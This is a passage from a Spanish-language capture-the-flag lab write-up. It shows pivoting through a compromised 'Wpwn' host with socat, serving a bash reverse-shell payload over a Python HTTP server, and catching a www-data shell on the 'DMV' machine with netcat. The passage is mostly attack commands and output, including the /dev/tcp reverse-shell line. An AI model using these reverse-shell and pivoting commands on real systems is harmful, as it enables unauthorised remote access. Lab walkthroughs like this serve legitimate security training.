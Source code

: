 En este punto ya tenemos plena capacidad de ejcución remota de comandos. Para que las peticiones lleguen a nuestra máquina atacante debemos redirigir las mismas con la herramienta `socat` de la máquina `Wpwn` a nuestro equipo. A la vez creamos un archivo index.html para entablar una reverse shell, el cual serviremos mediante un servidor HTTP con Python. Con socat redirigiremos la petición de la reverse shell a nuestro equipo


```bash
#Wpwn
root@wpwn:/tmp# socat TCP-LISTEN:4545,fork TCP:192.168.1.148:2323

#ATACANTE
❯ python3 -m http.server 2323
Serving HTTP on 0.0.0.0 port 2323 (http://0.0.0.0:2323/) ...
```

```bash
❯ cat index.html
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: index.html
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ bash -i >& /dev/tcp/10.10.0.145/7878 0>&1
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

```bash
#Wpwn
root@wpwn:/home/takis# socat TCP-LISTEN:7878,fork TCP:192.168.1.148:9898

#ATACANTE
❯ nc -nlvp 9898
listening on [any] 9898 ...
```
Ejecutamos curl desde BurpSuite y ganamos acceso a la máquina DMV

```bash
❯ nc -nlvp 9898
listening on [any] 9898 ...
connect to [192.168.1.148] from (UNKNOWN) [192.168.1.141] 52910
bash: cannot set terminal process group (1067): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ whoami
whoami
www-data
```

### Escalada de Privilegios (DMV: 1)
